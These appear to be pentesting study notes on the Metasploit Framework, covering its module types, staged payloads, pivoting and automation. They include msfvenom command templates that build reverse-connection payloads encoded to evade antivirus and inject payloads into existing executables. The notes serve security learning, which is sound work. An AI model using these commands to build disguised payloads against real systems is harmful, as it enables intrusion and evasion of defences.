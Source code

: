 # The Metasploit Framework

## Mestaploit Architechture

- **Exploit**: Module to exploit a vulnerabilty and usually paired to a payload.
- **Payload**: Code used after exploiting a vulnerability to deliver a command and control.
- **Encoders**: Used to encode payloads to avoid AV detections
- **NOPS**: Ensure the stability and consistency of a payload
- **Auxiliary**: Module that performs additional functionalities as port scanning and enumeration.

### Payloads Types

- **Non-Staged**: the payload is sent in one part.
- **Staged payload**: the payload delivery is done in two phases, the first payload sent stablishes a reverse connection (*stager*), the second payload is downloaded by the stager payload and executes the downloaded payload (*stage*).

### Using Mestasploit in Pentesting

| Pentesting Phase      | Metaseploit Implementation    |
|-----------------------|-------------------------------|
| Information Gathering | Auxiliary Modules             |
| Vulnerabilty Scanning | Auxiliary Modules             |
| Exploitation          | Exploit Modules & Payloads    |
| Post Exploitation     | Meterpreter                   |
| Privilege Escalation  | PostExplotation & Meterpreter |
| Persistence           | PostExplotation & Persistence |

## Using metasploit for port scanning

- `scanner/portscan/tcp` same as nmap but scanning with metasploit it can be combined with meterpreter. `autoroute` module can be comined for pivot to another devices by scanning each ports the same utility can be done with `Proxychains` or `ReGeorg`, `run autoroute -s <other_net_IP>`.

## Encoding Payloads

`msfvenom -p <payload> LHOST=<attacker_ip> LPORT=<open_port> -e <enconder> -f <output_format> -i <encoding_iterations> > <output_name>`

## PE Payload Injection

`msfvenom -p <payload> LHOST=<attacker_ip> LPORT=<open_port> -e <enconder> -x <executable_to_inject> -f <output_format> -i <encoding_iterations> -k > <output_name>`

## Automating Metasploit With Resource Scripts

To develop an automation its necesary to specify in a file what commands are going to be used for then launch it by executing `msfconsole -r <resource_script>`
